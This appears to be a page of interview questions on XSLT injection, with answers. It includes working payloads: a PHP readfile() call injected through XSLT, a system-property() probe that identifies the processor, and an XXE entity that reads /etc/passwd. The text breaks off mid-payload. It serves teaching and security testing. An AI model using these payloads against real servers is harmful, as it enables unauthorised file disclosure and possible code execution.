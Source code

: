 ### Advanced Interview Questions on **XSLT Injection** with Answers and Payloads

Here are advanced interview questions based on **XSLT Injection** vulnerabilities, along with detailed answers and payload examples to test both theoretical and practical understanding.

---

### 1. **What is XSLT Injection, and how does it pose a security risk to web applications?**
   - **Answer:**  
     XSLT Injection is an attack technique that exploits vulnerabilities in web applications that process untrusted XML data with unvalidated XSLT (Extensible Stylesheet Language Transformations) stylesheets. If an attacker can manipulate or inject malicious XSLT content into the application, it can change the structure of the resulting XML or execute arbitrary code. This can lead to issues such as file disclosure, remote code execution, or server-side request forgery (SSRF).
   - **Example Payload (Injecting a PHP function):**  
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <html xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
       <body>
         <xsl:value-of select="php:function('readfile','index.php')" />
       </body>
     </html>
     ```
     This payload tries to execute the `readfile()` function in PHP, reading the contents of `index.php` via XSLT.

---

### 2. **How can you determine the vendor and version of an XSLT processor during an attack?**
   - **Answer:**  
     To determine the XSLT processor’s version and vendor, attackers can use XSLT-specific functions like `system-property()` to extract this information, which is often exposed by the application when rendering XSLT stylesheets.
   - **Example Payload to Identify Vendor and Version:**
     ```xml
     <?xml version="1.0" encoding="utf-8"?>
     <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/fruits">
         <xsl:value-of select="system-property('xsl:vendor')" />
         <xsl:value-of select="system-property('xsl:version')" />
       </xsl:template>
     </xsl:stylesheet>
     ```
     This payload will extract and display the XSLT processor's vendor and version details.

---

### 3. **What is External Entity Injection in XSLT, and how can it be used to read files?**
   - **Answer:**  
     External Entity Injection (XXE) occurs when an attacker can inject XML External Entities (XXEs) into the XSLT stylesheet, which can be used to read sensitive files or perform server-side request forgery (SSRF). XXE attacks exploit the XML parser's ability to fetch external resources specified by the attacker.
   - **Example Payload (Reading a Local File):**
     ```xml
     <?xml version="1.0" encoding="utf-8"?>
     <!DOCTYPE dtd_sample [
       <!ENTITY ext_file SYSTEM "file:///etc/passwd">
     ]>